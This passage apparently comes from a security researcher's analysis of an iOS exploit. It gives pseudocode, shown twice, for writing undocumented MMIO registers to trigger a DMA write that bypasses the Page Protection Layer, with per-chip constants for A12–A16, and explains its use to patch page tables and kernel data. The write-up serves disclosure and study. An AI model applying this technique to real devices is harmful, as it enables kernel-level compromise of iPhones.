elif (cpuid == 0x1B588BB3): # CPUFAMILY_ARM_FIRESTORM_ICESTORM (A14)
    i = 0x28
    mask = 0x3FFFFF

elif (cpuid == 0x462504D2): # CPUFAMILY_ARM_LIGHTNING_THUNDER (A13)
    i = 0x28
    mask = 0x3FFFFF

elif (cpuid == 0x07D34B9F): # CPUFAMILY_ARM_VORTEX_TEMPEST (A12)
    i = 0x28
    mask = 0x3FFFFF

dma_init(original_value_0x206140108)

hash1 = calculate_hash(data)
hash2 = calculate_hash(data+0x20)

write_qword(0x206150040, 0x2000000 | (phys_addr & 0x3FC0))

pos = 0
while (pos < 0x40):
    write_qword(0x206150048, read_qword(data + pos))
    pos += 8

phys_addr_upper = ((((phys_addr >> 14) & mask) << 18) & 0x3FFFFFFFFFFFF)
value = phys_addr_upper | (hash1 << i) | (hash2 << 50) | 0x1F
write_qword(0x206150048, value)

dma_done(original_value_0x206140108)




12345678910111213141516171819202122232425262728293031323334353637

if (cpuid == 0x8765EDEA):   # CPUFAMILY_ARM_EVEREST_SAWTOOTH (A16)    i = 8    mask = 0x7FFFFFF elif (cpuid == 0xDA33D83D): # CPUFAMILY_ARM_AVALANCHE_BLIZZARD (A15)    i = 8    mask = 0x3FFFFF elif (cpuid == 0x1B588BB3): # CPUFAMILY_ARM_FIRESTORM_ICESTORM (A14)    i = 0x28    mask = 0x3FFFFF elif (cpuid == 0x462504D2): # CPUFAMILY_ARM_LIGHTNING_THUNDER (A13)    i = 0x28    mask = 0x3FFFFF elif (cpuid == 0x07D34B9F): # CPUFAMILY_ARM_VORTEX_TEMPEST (A12)    i = 0x28    mask = 0x3FFFFF dma_init(original_value_0x206140108) hash1 = calculate_hash(data)hash2 = calculate_hash(data+0x20) write_qword(0x206150040, 0x2000000 | (phys_addr & 0x3FC0)) pos = 0while (pos < 0x40):    write_qword(0x206150048, read_qword(data + pos))    pos += 8 phys_addr_upper = ((((phys_addr >> 14) & mask) << 18) & 0x3FFFFFFFFFFFF)value = phys_addr_upper | (hash1 << i) | (hash2 << 50) | 0x1Fwrite_qword(0x206150048, value) dma_done(original_value_0x206140108)




Pseudocode for the usage of the 0x206150040 and 0x206150048 registers by the exploit
As long as everything is done correctly, the hardware should perform a direct memory access (DMA) operation and write the data to the requested location.
The exploit uses this hardware feature as a Page Protection Layer (PPL) bypass, mainly for patching page table entries. It can also be used for patching the data in the protected __PPLDATA segment. The exploit does not use the feature to patch the kernel code, but once during a test, I was able to overwrite an instruction in the __TEXT_EXEC segment of the kernel and get an “Undefined Kernel Instruction” panic with the expected address and value. This only worked once—the other times I tried I got an AMCC panic. I have an idea about what I did right that one time it worked, and I am planning to look deeper into this in the future, because I think it would be really cool to take a vulnerability that was used to harm us and use it for something good, like enabling kernel debugging on new iPhones.
Now that all the work with all the MMIO registers has been covered, let us take a look at one last thing: how hashes are calculated. The algorithm is shown below.
